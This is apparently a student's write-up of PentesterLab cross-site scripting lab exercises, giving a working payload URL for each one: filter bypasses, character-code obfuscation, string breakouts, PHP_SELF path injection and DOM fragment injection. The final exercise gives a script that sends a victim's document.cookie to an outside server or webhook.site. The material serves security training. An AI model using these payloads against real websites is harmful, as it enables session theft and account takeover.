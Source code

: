# Pentesterlab XSS

> Saikat Karmakar | AUG 28 : 2021

---

## XSS

-	If you keep playing around, you will realise that if you use ``Pentest<script>erLab`` for payload, you can see PentesterLab in the page. You can probably use that to get \<script> in the page, and your alert box to pop up.
```
http://ptl-80c064c0-9b862210.libcurl.so/index.php?name=<script <Script>>alert('1')</</scriPT>script>
```

-	n this example, the developer decided to completely block the word script: if the request matches script, the execution stops.

Fortunately (or unfortunately depending on what side you are on), there are a lot of ways to get JavaScript to be run (non-exhaustive list):

    with the <a tag and for the following events: onmouseover (you will need to pass your mouse over the link), onmouseout, onmousemove, onclick ...
    with the <a tag directly in the URL: <a href='javascript:alert(1)'... (you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot use script in this example).
    with the <img tag directly with the event onerror: <img src='zzzz' onerror='alert(1)' />.
    with the <div tag and for the following events: onmouseover (you will need to pass your mouse over the link), onmouseout, onmousemove, onclick...

-	Using JavaScript's ``eval`` and ``String.fromCharCode()``, you should be able to get an alert box without using the word alert directly. String.fromCharCode() will decode an integer (decimal value) to the corresponding character.

You can write a small tool to transform your payload to this format using your favorite scripting language.

```
http://ptl-0d782720-dc40d7b9.libcurl.so/index.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,39,53,98,53,50,101,99,57,55,45,100,53,101,57,45,52,57,98,100,45,97,57,100,98,45,49,97,51,49,49,102,100,57,101,48,56,53,39,41))</script>
```

-   Here, the source code of the HTML page is a bit different. If you read it, you will see that the value you are sending is echoed back inside JavaScript code. To get your alert box, you will not need to inject a script tag, you will just need to correctly complete the pre-existing JavaScript code and add your own payload, then you will need to get rid of the code after your injection point by commenting it out (using //) or by adding some dummy code (var $dummy = ") to close it correctly.

```
http://ptl-ec36b543-866c4068.libcurl.so/index.php?name=jadu"</script><script>alert('5b52ec97-d5e9-49bd-a9db-1a311fd9e085')</script>var $dummy = "
```

-  In PHP web applications, because the well-known function used to HTML-encode characters (``htmlentities``) does not encode single quotes (`'`), unless you told it to do so, using the ``ENT_QUOTES`` flag.

```
http://ptl-ec5e6697-f38141b5.libcurl.so/index.php?name=jadu'; alert(1);//
```

-   Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It's possible to manipulate the path of the application in order to:

    call the current page (however you will get an HTTP 404 page);
    get a XSS payload in the page.

This can be done because the current configuration of the server will call /index.php when any URL matching /index.php/... is accessed. You can simply get your payload inside the page by accessing /index.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.

Trusting the path provided by users is a common mistake, and it can often be used to trigger XSS, as well as other issues. This is pretty common in pages with forms, and in error pages (404 and 500 pages).


```
http://ptl-a3161ec0-17bbc908.libcurl.so/index.php/jadu"><script>alert(1)</script>
```

-   This example is a DOM-based XSS. This page could actually be completely static and still be vulnerable.

In this example, you will need to read the code of the page to understand what is happening. When the page is rendered, the JavaScript code uses the current URL to retrieve the anchor portion of the URL (#...) and dynamically (on the client side) write it inside the page. This can be used to trigger a XSS vulnerability, if you use the payload as part of the URL.

Since most browsers now encode the fragment, this vulnerable application decodes the fragment using the function decodeURIComponent(...). With old browsers, the exploitation works even if decodeURIComponent(...) is not present.

```
http://ptl-0c6739b0-36755762.libcurl.so/index.php#jadu%22%3E%3Cscript%3Ealert(%225b52ec97-d5e9-49bd-a9db-1a311fd9e085%22)%3C/script%3E
```

-   This exercise is identical to the first one. But this time, you're going to have to retrieve the victim's cookie. To do so, you can:

    Use your own server
    Use webhook.site

To get the cookie, you will use JavaScript. Your JavaScript code will retrieve the victim's cookies with document.cookie. Then you will add the value to a \<img tag to send it to your website (or webhook.site).

Your payload should look like:
```js
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```
Once the browser renders the JavaScript the img tag should look like:
```js
<img src="[URL]?c=[COOKIE]"/>
```
And it will send the cookies to your website.

**Make sure you don't forget to encode the + in the URL (%2b).**


